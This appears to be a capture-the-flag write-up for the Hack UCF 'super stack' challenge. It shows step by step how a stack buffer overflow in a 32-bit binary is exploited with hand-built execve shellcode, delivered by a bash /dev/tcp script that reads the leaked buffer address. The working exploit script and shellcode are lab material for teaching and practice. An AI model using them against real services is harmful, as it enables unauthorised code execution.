


# super stack
**Category:** Pwn

**Points:** 100

**Description:**

Author: kablaa

nc ctf.hackucf.org 9005

> **Files:** super_stack, libpwnableharness32.so

## Write-up
Running the executable shows you the buffer address and then pauses, waiting for input. When you enter some input, it displays "returning NOW" and ends:
```
> ./super_stack 
buf: 0xffb5773c
aaaa
returning NOW
```
The binary was loaded into Ghidra and decompiled. As is usual with the framework the function we need to look at for what the code does is the `handle_connection()` function (I renamed the local variable to `buff`):
```c
void handle_connection(void)

{
  undefined buff [108];
  
  printf("buf: %p\n",buff);
  __isoc99_scanf(&DAT_08048709,buff);
  puts("returning NOW");
  return;
}
```
So this creates a buffer of 108 characters (I assumed char for the `undefined` type). Then it prints out the address of this buffer, gets something into the buffer from the user, prints `returning NOW`, and returns.

It seems we may need to manipulate the buffer to overwrite the return address to something else as we did in the [Pwn ret challenge](https://github.com/neuronflicker/CTF/tree/master/UCF/Pwn_ret). However, unlike that earlier challenge, there didn't seem to be any other function we could call to get the flag.

An option may be to put some assembly instructions into the input buffer to perform a `cat` of any flag file in the directory (or we could even create a shell), and overwrite the return address to point at the input buffer, calling our code.

Let's start with an attempt at `ls` so we can see what's in the directory.

I loaded the code into IDA and worked through the debugger to see how our stack was set up.

I created a file containing 180 `A` characters to pass as input to the program so we can see this on the stack:
```
python -c "printf('A'*108)" > inp.txt
```
When stepping through in IDA's debugger, we can see these `A` characters appear on the stack at 0xffd06a4c:



We can also see the return address on the stack at 0xffd06abc:



As the location of the buffer could change on each run, we'll need to enter the value manually for now, so we can trace through it in IDA to check we can start executing the buffer from the return call.

Unfortunately, entering binary hex values into a prompt cannot be done from the keyboard, so we can only test this with a script that can read the location of the buffer, and use that to fill in the value in the return address. This means we might as well go ahead and try things directly against the server.

First I wrote a basic script, trying to borrow code from [Scripting Gimme Shellcode](https://github.com/neuronflicker/CTF/tree/master/UCF/Scripting_GimmeShellcode) to execute in the buffer:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/9005

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d ':' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80')")
send_str=$send_str$(python -c "print('A'*81 + '$hex_addr')")

# Send the string
echo $send_str >&3

# Get the result
cat <&3

# Close the socket
exec 3<&-
```
Unfortunately, this code includes a `0x0b` value, which stops `scanf()` from reading further. I needed to replace that value, so I changed it to find the highest number below `0x0b` that would get through `scanf()`. I found that `0x08` worked fine. Now I can update the code to set `AL` to `0x08` and call `inc al` 3 times to make it `0x0b` again. This gave me the assembly code:
```asm
# /bin/ls test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x736c2f2f            ; Push the executable string (bin/ls) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push ebx                   ; First and only argv (the command)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x08               ; Use AL so we don't need zeros set to 0x08 to avoid
                                    ; 0x0b in final out put
         inc al                     ; Increment al to 0x09
         inc al                     ; 0x0a
         inc al                     ; 0x0b - this is what we need for execve()
         int 0x80

         mov al, 1                   ; Now exit (system call 1)
         xor ebx, ebx                ; with status 0
         int 0x80
```
I built and tested this with:
```
> nasm -felf ls_code.asm -o ls_code.o && ld -m elf_i386 -o ls_code ls_code.o
> ./ls_code 
hack_super_stack.sh	ls_code.asm	 super_stack.id0  super_stack.til
inp.txt			ls_code.o	 super_stack.id1
libpwnableharness32.so	super_stack	 super_stack.id2
ls_code			super_stack.i64  super_stack.nam
```
And this worked an gave me an `ls` of the directory. Now I converted it to shellcode with:
```
> objdump -d ./ls_code|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
I then updated the code in in my script. I also needed to adjust the amount of padding to account for the new instructions:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/9005

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d ':' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80')")
send_str=$send_str$(python -c "print('A'*75 + '$hex_addr')")

# Send the string
echo $send_str >&3

# Get the result
cat <&3

# Close the socket
exec 3<&-
```
Now when I ran this code, it showed me the contents of the remote directory:
```
> ./hack_super_stack.sh 
Found: buf: 0xff8f14dc
Extracted: ff8f14dc
As hex chars (little endian): \xdc\x14\x8f\xff
returning NOW
flag.txt
super_stack
```
There is a `flag.txt` file there, so now we can steal the `cat` code from [Scripting Gimme Shellcode](https://github.com/neuronflicker/CTF/tree/master/UCF/Scripting_GimmeShellcode), update it to remove the `0x0b` (and anything else in there), and put the resulting shellcode in my script.

The updated `cat` assembly is:
```asm
# /bin/cat flag.txt test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x7461632f            ; Push the executable string (/bin/cat) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command

         push eax                   ; Null terminate the argument string
         push 0x7478742e            ; Push the argument (flag.txt) to the stack
         push 0x67616c66            ;
         mov esi, esp               ; Save the pointer in ESI
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push esi                   ; Push the pointer to the argument (flag.txt)
         push ebx                   ; Push the pointer to the command (/bin/cat)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x08               ; Use AL so we don't need zeros set to 0x08 to avoid
                                    ; 0x0b in final out put
         inc al                     ; Increment al to 0x09
         inc al                     ; 0x0a
         inc al                     ; 0x0b - this is what we need for execve()
         int 0x80
        
         mov al, 1                   ; Now exit
         xor ebx, ebx                ; with status 0
         int 0x80
```
I converted this to shellcode:
```
> objdump -d ./cat_code|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x66\x6c\x61\x67\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
I copied the output shellcode into the script and re-ran it:
```
> ./hack_super_stack.sh 
Found: buf: 0xffd6e68c
Extracted: ffd6e68c
As hex chars (little endian): \x8c\xe6\xd6\xff
returning NOW
flag{<flag_was_here>}
```
This gave me the flag.

